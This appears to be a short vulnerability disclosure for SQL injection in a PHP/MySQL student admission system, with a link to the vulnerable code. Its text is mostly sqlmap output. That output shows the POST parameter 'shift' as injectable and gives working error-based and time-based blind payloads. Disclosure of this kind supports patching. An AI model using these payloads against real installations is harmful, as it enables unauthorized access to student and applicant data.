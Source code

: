 # Student-Admission CMS Sqlinjection

## Sqlinjection location 1
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)


![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

#### No Check Shift  

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)


#### Sqlmap Attack
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```

## Sqlinjection location 2

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html

